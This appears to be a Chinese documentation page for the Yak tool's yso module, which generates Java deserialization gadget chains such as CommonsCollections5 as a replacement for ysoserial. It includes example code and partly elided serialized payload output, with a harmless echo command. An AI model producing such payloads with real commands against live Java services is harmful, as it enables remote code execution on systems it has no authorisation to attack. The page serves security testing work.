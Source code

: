 ---
sidebar_position: 113
---

# Java 反序列化利用链: yso(ysoserial)

Yak 通过非 Java 的方式实现了一整套 Java 反序列化协议。

可以在一定容错限度内劫持绝大部分 Java 反序列化流。

详情参考 [java: java 反序列化协议的 Golang/Yak 实现](/api-manual/api/java)

## YSoSerial 的 Yak 替代品

在实现了 Java 反序列化协议后，Java 相关漏洞不再需要原生 Java 或硬编码 HEX/Binary 流来实现。

```go
evilCls, err = yso.GetCommonsCollections5("echo HelloWorld")
die(err)

bytes = java.MarshalJavaObjects(evilCls)
hexStr = codec.EncodeToHex(bytes)
base64Str = codec.EncodeBase64(bytes)

dump(bytes)
println(hexStr + "\n")
println(base64Str + "\n")

/*
OUTPUT:

([]uint8) (len=2084 cap=2304) {
 00000000  ac ed 00 05 73 72 00 2e  6a 61 76 61 78 2e 6d 61  |....sr..javax.ma|
 00000010  6e 61 67 65 6d 65 6e 74  2e 42 61 64 41 74 74 72  |nagement.BadAttr|
 00000020  69 62 75 74 65 56 61 6c  75 65 45 78 70 45 78 63  |ibuteValueExpExc|
 00000030  65 70 74 69 6f 6e d4 e7  da ab 63 2d 46 40 02 00  |eption....c-F@..|
                                ......
                                ......
                                ......
                                        c 61 6e 67 2e 4e 75  |xr..java.lang.Nu|
 000007c0  6d 62 65 72 86 ac 95 1d  0b 94 e0 8b 02 00 00 78  |mber...........x|
 000007d0  70 00 00 00 01 73 72 00  11 6a 61 76 61 2e 75 74  |p....sr..java.ut|
 000007e0  69 6c 2e 48 61 73 68 4d  61 70 05 07 da c1 c3 16  |il.HashMap......|
 000007f0  60 d1 03 00 02 46 00 0a  6c 6f 61 64 46 61 63 74  |`....F..loadFact|
 00000800  6f 72 49 00 09 74 68 72  65 73 68 6f 6c 64 78 70  |orI..thresholdxp|
 00000810  3f 40 00 00 00 00 00 00  77 08 00 00 00 10 00 00  |?@......w.......|
 00000820  00 00 78 78                                       |..xx|
}

aced00057372002e6a617661782e6d616e6167656d656e74......c1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f40000000000000770800000010000000007878

rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhj......HVleHIAEGphdmEubGFuZy5OdW1iZXKGrJUdC5TgiwIAAHhwAAAAAXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3CAAAABAAAAAAeHg=
*/
```